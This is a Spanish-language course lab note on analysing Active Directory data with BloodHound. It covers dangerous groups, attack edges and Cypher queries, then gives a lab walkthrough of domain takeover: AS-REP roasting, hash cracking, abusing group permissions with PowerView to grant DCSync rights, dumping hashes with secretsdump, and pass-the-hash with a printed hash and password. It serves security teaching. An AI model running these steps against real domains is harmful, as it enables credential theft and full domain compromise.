# 🩸 BloodHound - Análisis de Datos

  
    

## 📊 Analizando la Información con BloodHound

    

Una vez tenemos los datos cargados en BloodHound, procedemos a analizarlos.

    

### 🎯 Paso 1: Seleccionar el Dominio

    

Lo primero es indicar el dominio sobre el que vamos a inspeccionar los datos:

    



    

Y una vez indicado, lo seleccionamos para que los objetos comiencen a aparecer:

    



    

Nos movemos por las tres opciones superiores y vamos viendo la información del dominio seleccionado:

    



  
  
    

## 📋 Información General del Dominio

    

Partimos de una información inicial del dominio en el que podemos ver está compuesto por:

    


    

      

#### 📊 Composición del Dominio:

      
        
* ✅ **6 usuarios**
        
* ✅ **56 grupos**
        
* ✅ **1 ordenador**
        
* ✅ **1 unidad organizativa**
        
* ✅ **2 GPOs**
      
    

    

      

**📚 Información sobre Niveles Funcionales:**

      

[Microsoft Docs - Active Directory Functional Levels](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/active-directory-functional-levels)

    

  

  
  
    

## ⚠️ Grupos Peligrosos en Windows - Elevación de Privilegios

    

Al igual que en Linux existen grupos que otorgan privilegios elevados de forma indirecta (como `docker`, `lxd` o `disk`), en Windows hay grupos cuya membresía puede ser aprovechada por un atacante para elevar privilegios, incluso sin pertenecer directamente a *Administrators*. BloodHound los detecta y muestra como nodos de alto valor en el grafo.

    

### 🔴 Críticos — Equivalen prácticamente a Administrador

    

| Grupo | ¿Por qué es peligroso? |
| --- | --- |
| `Administrators` | Control total del sistema local |
| `Domain Admins` | Control total del dominio Active Directory |
| `Enterprise Admins` | Control total del bosque AD (forest) |
| `Schema Admins` | Pueden modificar el esquema de AD → persistencia profunda |
| `Group Policy Creator Owners` | Crear/modificar GPOs → ejecución de código en todo el dominio |

    

### 🟠 Muy peligrosos — Escalada directa o casi directa

    

| Grupo | Vector de ataque |
| --- | --- |
| `Backup Operators` | Pueden hacer backup del SAM y NTDS.dit → volcado de todos los hashes del dominio |
| `Server Operators` | Pueden modificar y reiniciar servicios del sistema → ejecución como SYSTEM |
| `Account Operators` | Crear/modificar cuentas y grupos (excepto admins) → escalada por membresías |
| `Print Operators` | Pueden cargar drivers de impresora → ejecución de código en el kernel |
| `Remote Management Users` | Acceso WinRM (Evil-WinRM) → ejecución remota de comandos |
| `DnsAdmins` | Pueden cargar una DLL arbitraria en el proceso DNS → ejecución como SYSTEM |
| `Hyper-V Administrators` | Control de VMs → acceso a archivos del host, posible escape del hipervisor |

    

### 🟡 Peligrosos en contexto de AD / BloodHound

    

| Grupo / Privilegio | Vector |
| --- | --- |
| `Remote Desktop Users` | Acceso RDP → movimiento lateral entre máquinas |
| `Distributed COM Users` | Ejecución remota vía DCOM → equivalente a ejecución de comandos |
| `Performance Monitor Users` | Lectura de procesos y memoria → reconocimiento privilegiado |
| `Event Log Readers` | Lectura de logs de seguridad → reconocimiento y extracción de credenciales en texto claro |
| `Certificate Service DCOM Access` | Interacción con ADCS → ataques ESC1-ESC8 para obtener certificados de admin |
| `Exchange Windows Permissions` | WriteDACL sobre el dominio → otorgarse permisos DCSync |
| `Organization Management` (Exchange) | Control total de Exchange → DCSync por permisos heredados en el dominio |

    

### 🔵 Privilegios de usuario peligrosos (User Rights Assignment)

    

BloodHound también marca como peligrosos ciertos **privilegios de usuario** asignados individualmente (no son grupos, pero tienen el mismo impacto):

    

| Privilegio | Abuso potencial |
| --- | --- |
| `SeDebugPrivilege` | Leer/escribir memoria de cualquier proceso → volcado de LSASS |
| `SeImpersonatePrivilege` | Ataques Potato (JuicyPotato, PrintSpoofer, GodPotato) → SYSTEM |
| `SeBackupPrivilege` | Leer cualquier archivo ignorando ACLs → lectura del SAM y NTDS.dit |
| `SeRestorePrivilege` | Escribir cualquier archivo ignorando ACLs → reemplazar binarios del sistema |
| `SeTakeOwnershipPrivilege` | Apropiarse de cualquier objeto AD o archivo del sistema |
| `SeLoadDriverPrivilege` | Cargar drivers → ejecución de código arbitrario en el kernel |

    

      

#### 🔎 ¿Cómo los detecta BloodHound?

      

BloodHound mapea estas relaciones como **edges (aristas)** en el grafo de Active Directory. Al hacer la query *Find Shortest Paths to Domain Admins*, el motor Cypher traza rutas que pasan por estos grupos. Los edges más relevantes asociados a esta escalada son:

      
        
* `MemberOf` → el usuario pertenece al grupo peligroso
        
* `AdminTo` → el grupo tiene administración local sobre un equipo
        
* `GenericAll / WriteDACL / WriteOwner` → control total o modificación de permisos
        
* `CanRDP / CanPSRemote` → acceso remoto explotable
        
* `HasSession` → usuario logueado, posible robo de tokens
      
      

El paralelismo con Linux es directo: igual que `docker` o `lxd` dan acceso root de forma indirecta, grupos como **DnsAdmins** o **Backup Operators** permiten llegar a SYSTEM o Domain Admin sin pertenecer explícitamente al grupo de administradores.

    

    

      

**⚠️ Ejemplo real en esta práctica:** El usuario `adm_puffy` pertenece al grupo `Privilege Users`, que a su vez es miembro de `Account Operators`. Este grupo tiene `GenericAll` sobre `Special Permissions`, lo que encadena una escalada completa hasta DCSync. Es un ejemplo perfecto de cómo una membresía en un grupo aparentemente inocente puede llevar al compromiso total del dominio.

    

  
  

  
    

## 🔍 Búsquedas de Información de Interés

    

### 👥 Buscar el Grupo "Domain Users"

    

Vamos ahora a hacer diferentes búsquedas interesantes:

    

**Buscar el grupo usuarios de dominio y ver qué privilegios tiene:**

    


    

Vemos que hay **5 miembros** en este grupo:

    



    

Sin permisos de administración a nivel local:

    



    

### 🎛️ Outbound Object Control

    

Vamos a ir a la sección **Outbound Object Control** y pulsamos en **Transitive Object Control**, lo que nos mostrará un listado de objetos sobre los que los usuarios de este grupo tienen control:

    



    

### 🛤️ PathFinding - Camino a Domain Admins

    

Vamos a ver si hay un camino para convertirnos en administradores de dominio.

    

Pulsamos en el botón **PathFinding**:

    



    

Escribimos en el target `domain admins`:

    



    

Nos dirá que no hay datos ya que una conexión directa no existe.

  
  
    

## 📊 Pre-Built Analytics Queries

    

Para las siguientes búsquedas interesantes vamos a usar en el menú análisis, los **Pre-Built Analytics Queries**.

    

### 👑 Find all Domain Admins

    

Buscamos todos los usuarios administradores de dominio:

    



    

### 🎯 Find Shortest Paths to Domain Admins

    

Encontrar la forma más corta de convertirnos en administradores de dominio.

    

      

**⚠️ Nota:** Aparece un usuario en la lista que es `adm_puffy`

    

    

**Ejemplo:**

    



    

      

#### 🔍 Análisis del Grafo:

      

En la pantalla superior podemos ver tres usuarios que podrían convertirse en administradores:

      
      
        
* 

**Gil:** Tiene privilegios `AddAllowedToAct` sobre el controlador de dominio DC01.

        

*El permiso AddAllowedToAct en Active Directory es un permiso que permite a una entidad (usuario, grupo o cuenta de equipo) actuar en nombre de un servicio específico. Este permiso es particularmente relevante en el contexto de la delegación de autenticación o cuando se configuran servicios para que actúen en nombre de otros usuarios o cuentas.*

        
        
* 

**Pedro:** Tiene permisos `GenericAll` sobre el grupo de usuarios.

        

*El permiso GenericAll en Active Directory es uno de los permisos de control de acceso más poderosos que se pueden otorgar a un objeto (como un usuario, grupo o equipo). Este permiso otorga al titular control total sobre un objeto en Active Directory. Un usuario con este permiso puede, por ejemplo, escalar sus privilegios modificando otros objetos o asignándose a sí mismo permisos adicionales en otros objetos sensibles.*

        
        
* 

**Sarah:** Puede ganar control sobre Pedro.

        
        
* 

**svc_backup:** Tiene control sobre las GPOs que se aplican en el controlador de dominio.

      
    

    

### 🔄 Find Principals with DCSync Rights

    

Esta query se utiliza para identificar cuentas (usuarios, grupos o equipos) que tienen los permisos necesarios para realizar una operación conocida como **DCSync**.

    

      

#### ⚠️ ¿Qué es DCSync?

      

**DCSync** es una técnica que permite a un atacante (o a un administrador) simular el comportamiento de un controlador de dominio (Domain Controller - DC) en Active Directory. Con esta técnica, se puede solicitar a otro DC que replique información confidencial, como:

      
        
* 🔴 Las contraseñas hash de todos los usuarios del dominio
        
* 🔴 Cuentas administrativas, como el Domain Admin
        
* 🔴 La cuenta KRBTGT (clave del reino)
      
    

    

### 🎫 Find AS-REP Roastable Users (DontReqPreAuth)

    

La query "Find AS-REP Roastable Users (DontReqPreAuth)" se utiliza para identificar usuarios en Active Directory que tienen configurado el atributo `Do not require Kerberos pre-authentication` (DontReqPreAuth). Este atributo indica que el usuario está configurado para permitir autenticaciones Kerberos sin la necesidad de pre-autenticación, lo que hace que la cuenta sea susceptible al ataque **AS-REP Roasting**.

    

      

**⚠️ Resultado:** Vuelve a aparecer el usuario `adm_puffy`

    

    

### 🌐 Users with Foreign Domain Group Membership

    

La query "Users with Foreign Domain Group Membership" en un entorno de Active Directory se utiliza para identificar usuarios que pertenecen a grupos que están ubicados en un dominio diferente al dominio al que pertenecen las cuentas de usuario.

    

La membresía en un grupo de un dominio extranjero podría otorgar al usuario permisos inesperados en aplicaciones, servicios, o recursos del otro dominio.

    

Permite a los administradores identificar y gestionar usuarios que tienen acceso a recursos en dominios distintos al suyo, ayudando a prevenir configuraciones indebidas, detectar posibles riesgos de seguridad y cumplir con las normativas de acceso y auditoría.

    

### 👥 Groups with Foreign Domain Group Membership

    

Similar a la anterior pero para grupos de usuarios.

    

### 🔗 Map Domain Trusts

    

La query "Map Domain Trusts" en un entorno de Active Directory se utiliza para identificar y mapear las relaciones de confianza entre dominios. Estas relaciones de confianza son fundamentales para permitir la autenticación y el acceso a recursos entre diferentes dominios y, en algunos casos, diferentes bosques.

    

### 🔓 Shortest Paths to Unconstrained Delegation Systems

    

Esta query tiene como objetivo identificar las rutas más cortas que un atacante podría usar para comprometer sistemas configurados con delegación no restringida.

    

**Delegación no restringida (Unconstrained Delegation)** es una configuración en Active Directory que permite a un servicio, como un servidor o una cuenta de servicio, asumir la identidad de los usuarios que se autentican en ese servicio para acceder a otros recursos en la red.

    

### 🎟️ Shortest Paths from Kerberoastable Users

    

La query "Shortest Paths from Kerberoastable Users" se utiliza para identificar las rutas más cortas que un atacante podría usar para moverse desde usuarios vulnerables al ataque de **Kerberoasting** hacia otros objetivos valiosos en un entorno de Active Directory. Los Kerberoastable Users son cuentas de servicio configuradas para usar cifrado RC4, lo que permite a un atacante extraer el ticket de servicio y realizar un ataque de fuerza bruta para obtener las contraseñas. Esta query es crítica para identificar y mitigar posibles vectores de ataque, ayudando a los administradores a proteger las cuentas de servicio y a prevenir la escalada de privilegios en la red.

    

### 💀 Shortest Path from Owned Principals

    

La query "Shortest Paths from Owned Principals" se utiliza para identificar las rutas más directas que un atacante podría seguir desde cuentas o entidades que ya han sido comprometidas ("owned") hacia otros objetivos críticos dentro de un entorno de Active Directory. Esta consulta es esencial para evaluar el riesgo y la posible expansión del compromiso, ayudando a los administradores a identificar las conexiones vulnerables que pueden permitir al atacante moverse lateralmente, escalar privilegios o comprometer recursos adicionales en la red.

    

### 👑 Shortest Paths to Domain Admins from Owned Principals

    

La query "Shortest Paths to Domain Admins from Owned Principals" se utiliza para identificar las rutas más cortas que un atacante podría tomar para moverse desde cuentas o entidades comprometidas (Owned Principals) hasta comprometer cuentas con privilegios de Domain Admin en un entorno de Active Directory.

    

### 🎯 Shortest Paths to High-Value Targets

    

La query "Shortest Paths to High-Value Targets" en un entorno de Active Directory se utiliza para identificar las rutas más cortas que un atacante podría seguir para llegar a objetivos de alto valor (High-Value Targets), como cuentas administrativas, servidores críticos o sistemas sensibles.

    

### 💀 Mark as Owned

    

La función **mark as owned** de BloodHound permite a un usuario marcar un nodo como poseído o controlado, indicando que el nodo está bajo su control. Esta función es particularmente útil para evaluaciones de Red Team, ya que les permite marcar nodos que han comprometido o sobre los que tienen control, e identificar rápidamente otros nodos en el entorno que podrían ser objetivos potenciales.

    

Para usar **mark as owned**, un usuario simplemente debe hacer clic derecho en un nodo en la interfaz de BloodHound y seleccionar `mark as owned`. El nodo se marcará entonces con un icono de calavera 💀, indicando que está comprometido.

  
  
    

## 🎯 Análisis Final - Escalada de Privilegios

    

Antes hemos visto cómo aparece un usuario `adm_puffy` como posible elevación de privilegios:

    



    

      

#### 🛤️ Camino de Escalada:

      
        
* El usuario `adm_puffy` es miembro del grupo `Privilege Users`
        
* Este grupo es miembro de `Account Operators`
        
* El grupo `Account Operators` tiene permisos de `GenericAll` sobre el grupo `Special Permissions`
        
* Esto da la posibilidad de que `adm_puffy` se agregue como miembro de este grupo
        
* El grupo `Special Permissions` tiene permisos de `WriteAcl` sobre el dominio
        
* Podemos darnos permisos `DCSync` y obtener los hashes de todos los usuarios, incluyendo el administrador
      
    

    

Estos son los permisos `Replicate Directory Changes` y `Replicate Directory Changes All`.

    

**Por lo tanto el objetivo es encontrar las credenciales de adm_puffy y elevar privilegios.**

    

### 🔓 Paso 1: Obtener Hash de adm_puffy (AS-REP Roasting)

    

Como hemos visto que el usuario `adm_puffy` es vulnerable a AS-REP, vamos a obtener el hash de su contraseña:

    

```bash
$ echo adm_puffy > users.txt
$ impacket-GetNPUsers bbr.thl/ -dc-ip 192.168.212.4 -usersfile users.txt
```

    

### 🔨 Paso 2: Crackear el Hash con John

    

Con John usando el diccionario que encontramos en la web:

    

```bash
$ john --wordlist=Skyisthelimit.txt adm_hash
```

    

      

#### 🔑 Credenciales Obtenidas:

      

`adm_puffy:Demo@123`

    

    

### 👥 Paso 3: Añadir Usuario al Grupo "Special Permissions"

    

```bash
*Evil-WinRM* PS C:\Users\adm_puffy\Documents> net group "Special Permissions" adm_puffy /add
```

    

### 🔧 Paso 4: Descargar y Subir PowerView.ps1

    

```bash
$ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
```

    

Lo subimos:

    

```bash
*Evil-WinRM* PS C:\Users\adm_puffy\Documents> upload /home/tecnico/comun/VMs/THL/big/powerview.ps1
```

    

### ⚡ Paso 5: Ejecutar PowerView para Darnos Permisos DCSync

    

Cargamos el módulo PowerView:

    

```bash
*Evil-WinRM* PS C:\Users\adm_puffy\Documents> import-module .\powerview.ps1
*Evil-WinRM* PS C:\Users\adm_puffy\Documents> $SecPassword = ConvertTo-SecureString 'Demo@123' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\adm_puffy\Documents> $Cred = New-Object System.Management.Automation.PSCredential('bbr.thl\adm_puffy', $SecPassword)
*Evil-WinRM* PS C:\Users\adm_puffy\Documents> Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'Special permissions' -TargetIdentity "bbr.thl\Special permissions" -Rights DCSync
```

    

### 💎 Paso 6: Extraer los Hashes con DCSync

    

Ya podemos extraer los hashes:

    

```bash
$ impacket-secretsdump bbr.thl/adm_puffy@192.168.212.4
```

    

### 👑 Paso 7: Conectar como Administrator con Pass-the-Hash

    

Y conectar con el hash del Administrador:

    

```bash
$ evil-winrm -i bbr.thl -u 'Administrator' -H 'bb1c50a48c37e053d2045cd5b55cd2f2'
```

    

      

#### 🎉 ¡Escalada Exitosa!

      

Ahora somos **Administrator** del dominio gracias a:

      
        
* ✅ AS-REP Roasting para obtener credenciales de adm_puffy
        
* ✅ Membresías de grupos encadenadas (GenericAll)
        
* ✅ Permisos WriteAcl sobre el dominio
        
* ✅ Ataque DCSync para extraer hashes
        
* ✅ Pass-the-Hash para autenticación como Administrator
      
    

  
  
    

## 📘 Lenguaje de BloodHound - Edges (Relaciones)

    

BloodHound utiliza un sistema de **edges (aristas)** para representar las relaciones y permisos entre objetos en Active Directory. Cada edge tiene un significado específico que indica qué puede hacer un objeto sobre otro.

    

### 🔗 Edges Más Comunes en BloodHound

    

      

#### 🔑 Edges de Control Total:

      

| Edge | Descripción | Abuso Potencial |
| --- | --- | --- |
| `GenericAll` | Control total sobre el objeto | 🔴 Modificar propiedades, resetear contraseñas, agregar a grupos, escribir ACLs |
| `AllExtendedRights` | Todos los derechos extendidos | 🔴 Incluye ForceChangePassword, User-Force-Change-Password |
| `Owns` | Propietario del objeto | 🔴 Control total como propietario |

    

    

      

#### 🔓 Edges de Modificación:

      

| Edge | Descripción | Abuso Potencial |
| --- | --- | --- |
| `GenericWrite` | Escribir cualquier propiedad | 🟠 Modificar propiedades, agregar SPNs, logonScript |
| `WriteOwner` | Cambiar el propietario | 🟠 Convertirse en propietario del objeto |
| `WriteDacl` | Modificar permisos (ACL) | 🟠 Darse GenericAll o cualquier otro permiso |
| `ForceChangePassword` | Forzar cambio de contraseña | 🟠 Cambiar contraseña sin conocer la actual |

    

    

      

#### 👥 Edges de Membresía:

      

| Edge | Descripción | Significado |
| --- | --- | --- |
| `MemberOf` | Miembro de un grupo | 🟢 Hereda permisos del grupo |
| `Contains` | Contiene objetos | 🟢 OU o GPO contiene usuarios/equipos |
| `GpLink` | GPO vinculada a una OU | 🟢 Política de grupo aplicada |

    

    

      

#### 🔴 Edges de Acceso Privilegiado:

      

| Edge | Descripción | Abuso Potencial |
| --- | --- | --- |
| `AdminTo` | Administrador local | 🔴 Control total del equipo, dumping de credenciales |
| `CanRDP` | Puede hacer RDP | 🔴 Acceso remoto al escritorio |
| `CanPSRemote` | Puede ejecutar PowerShell remoto | 🔴 Ejecución remota de comandos |
| `ExecuteDCOM` | Puede ejecutar DCOM | 🔴 Ejecución remota vía DCOM |
| `HasSession` | Tiene sesión activa | 🔴 Usuario loggeado, posible robo de tokens |

    

    

      

#### 🎯 Edges de Delegación:

      

| Edge | Descripción | Abuso Potencial |
| --- | --- | --- |
| `AllowedToDelegate` | Delegación restringida | 🟠 Impersonar usuarios para servicios específicos |
| `AllowedToAct` | Resource-Based Constrained Delegation | 🟠 RBCD attack, impersonar usuarios |
| `AddAllowedToAct` | Puede modificar msDS-AllowedToActOnBehalfOfOtherIdentity | 🔴 Configurar RBCD, escalar privilegios |

    

    

      

#### 📜 Edges de GPO:

      

| Edge | Descripción | Abuso Potencial |
| --- | --- | --- |
| `GpLink` | GPO vinculada a OU/Dominio | 🟠 La GPO se aplica a los objetos |
| `WriteGPLink` | Modificar vínculos de GPO | 🔴 Vincular GPOs maliciosas |

    

    

### 💬 Consultas Cypher Útiles

    

BloodHound utiliza el lenguaje **Cypher** (de Neo4j) para realizar consultas personalizadas:

    

      

#### 🔍 Ejemplos de Consultas Cypher:

      
      1. Encontrar todos los Domain Admins:
      

```bash
MATCH (n:Group) WHERE n.name = "DOMAIN ADMINS@DOMAIN.LOCAL"
MATCH (m:User)-[r:MemberOf*1..]->(n)
RETURN m
```

      2. Usuarios con GenericAll sobre Domain Admins:
      

```bash
MATCH (n:User),(m:Group {name:"DOMAIN ADMINS@DOMAIN.LOCAL"}),
p=shortestPath((n)-[r:GenericAll]->(m))
RETURN p
```

      3. Camino más corto desde un usuario específico a DA:
      

```bash
MATCH (n:User {name:"USER@DOMAIN.LOCAL"}),
(m:Group {name:"DOMAIN ADMINS@DOMAIN.LOCAL"}),
p=shortestPath((n)-[*1..]->(m))
RETURN p
```

      4. Usuarios con sesiones en equipos donde hay Domain Admins:
      

```bash
MATCH (c:Computer)-[r:HasSession]->(u:User)-[r2:MemberOf*1..]->(g:Group {name:"DOMAIN ADMINS@DOMAIN.LOCAL"})
RETURN c,r,u,r2,g
```

      5. Objetos marcados como Owned:
      

```bash
MATCH (n) WHERE n.owned=TRUE RETURN n
```

      6. Caminos desde objetos Owned a High Value Targets:
      

```bash
MATCH (n {owned:true}), (m {highvalue:true}),
p=shortestPath((n)-[*1..]->(m))
RETURN p
```

      7. Usuarios miembros de grupos peligrosos (Backup Operators, Server Operators, etc.):
      

```bash
MATCH (u:User)-[r:MemberOf*1..]->(g:Group)
WHERE g.name IN [
  "BACKUP OPERATORS@DOMAIN.LOCAL",
  "SERVER OPERATORS@DOMAIN.LOCAL",
  "ACCOUNT OPERATORS@DOMAIN.LOCAL",
  "PRINT OPERATORS@DOMAIN.LOCAL",
  "DNSADMINS@DOMAIN.LOCAL",
  "REMOTE MANAGEMENT USERS@DOMAIN.LOCAL"
]
RETURN u.name, g.name
```

      8. Grupos peligrosos con acceso directo o transitivo a Domain Admins:
      

```bash
MATCH (g:Group), (da:Group {name:"DOMAIN ADMINS@DOMAIN.LOCAL"}),
p=shortestPath((g)-[*1..]->(da))
WHERE g.name <> da.name
RETURN p
```

    

    

### 🎨 Operadores de Cypher

    

| Operador | Descripción | Ejemplo |
| --- | --- | --- |
| `MATCH` | Buscar patrones en el grafo | `MATCH (n:User)` |
| `WHERE` | Filtrar resultados | `WHERE n.enabled=true` |
| `RETURN` | Devolver resultados | `RETURN n.name` |
| `shortestPath` | Camino más corto | `shortestPath((n)-[*]->(m))` |
| `*1..` | Relaciones transitivas (1 o más saltos) | `(n)-[*1..]->(m)` |
| `->` | Dirección de la relación | `(n)-[:MemberOf]->(g)` |
| `IN [...]` | Coincidencia con lista de valores | `WHERE g.name IN ["A", "B"]` |

  
  
    

## 📚 Resumen

    

      

### 🎓 Lo que hemos aprendido:

      
        
* ✅ Cómo analizar datos en BloodHound
        
* ✅ Pre-Built Queries para análisis rápido
        
* ✅ Identificar caminos de escalada de privilegios
        
* ✅ Grupos peligrosos en Windows y su vector de ataque
        
* ✅ Abuso de permisos GenericAll, WriteDacl, etc.
        
* ✅ AS-REP Roasting para obtener credenciales
        
* ✅ Ataque DCSync para extraer hashes
        
* ✅ Edges y relaciones en BloodHound
        
* ✅ Consultas Cypher personalizadas
      
      

### 🔑 Conceptos Clave:

      

| Concepto | Descripción |
| --- | --- |
| Edge | Relación entre dos nodos (usuarios, grupos, equipos) |
| GenericAll | Control total sobre un objeto |
| WriteDacl | Puede modificar permisos (ACL) de un objeto |
| DCSync | Simular un DC y replicar hashes de contraseñas |
| AS-REP Roasting | Obtener TGT de usuarios sin pre-autenticación Kerberos |
| Owned | Nodo marcado como comprometido |
| Cypher | Lenguaje de consultas de grafos de Neo4j |
| Grupos peligrosos | Grupos de Windows que permiten escalada indirecta (Backup Operators, DnsAdmins, Account Operators...) |

      

### 🎯 Navegación:

      

← [Anterior: 02 - Recolección de Información]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/09b - BloodHound - Práctica 2 - Recolección de Información|09b - BloodHound - Práctica 2 - Recolección]])

      

→ [Siguiente: 04 - Alternativas a BloodHound]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/09d - BloodHound - Práctica 4 - Herramientas Alternativas|09d - BloodHound - Práctica 4 - Alternativas]])

      

↑ [Volver al Índice del Módulo]([[02 - MODULOS/Prácticas (PoCs)/Herramientas de Auditoría/01 - Escaneo y Enumeración de Redes con Nmap|Índice de Herramientas de Auditoría]])
